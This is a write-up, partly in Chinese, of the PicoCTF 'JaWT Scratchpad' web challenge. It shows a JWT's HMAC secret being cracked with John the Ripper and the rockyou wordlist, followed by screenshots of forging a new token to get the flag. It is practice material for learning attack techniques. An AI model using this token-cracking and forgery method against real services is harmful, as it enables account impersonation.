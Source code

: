 ```yaml
---
title: PicoCTF - JaWT Scratchpad
tags: [PicoCTF, CTF, Web]

category: "Security/Practice/PicoCTF/Web"
---
```


# PicoCTF - JaWT Scratchpad

## Background
[NTUCNS - HW3 - JWT Authentication](https://hackmd.io/JO7xByQgQWK67eU0goHMeA?view#c)

## Recon
這一題蠻有趣的，有結合其他東西當作解題的基礎，先看JWT的token，decode過後的結果表示：
![](https://hackmd.io/_uploads/S1B-01POh.png)

也就是說，token只會隨著payload而變動，所以也沒有辦法用解public key的方式重新簽署文件，另外用alg=none也會出現Authentication failed，不過作者有在網頁中有給出提示，用[John](https://github.com/magnumripper/JohnTheRipper)，看起來就是用john-the-ripper解出token password

## Exploit - Brute Force
1. Brute Force Password
    ```bash!
    $ cat jwt.txt
    eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VyIjoiaGhoIn0.j1yd-PJbjNraLhhBAxZBD2C1EVIyHqlnvKh_l-iVKG8%
    $ ./john.exe ../jwt.txt --wordlist=../rockyou.txt
    Using default input encoding: UTF-8
    Loaded 1 password hash (HMAC-SHA256 [password is key, SHA256 256/256 AVX2 8x])
    Will run 8 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    ilovepico        (?)
    1g 0:00:00:02 DONE (2023-06-26 18:42) 0.3673g/s 2720Kp/s 2720Kc/s 2720KC/s ilovetitoelbambino..ilovejesus71
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```
    Token Password: `ilovepico`
2. Check password & Construct New Token
![](https://hackmd.io/_uploads/BkjwMxDOh.png)

3. Get Flag
![](https://hackmd.io/_uploads/SJ85fxvun.png)


## Reference
[ pico2019 JaWT Scratchpad ](https://youtu.be/Ug7qTzFuZ9o)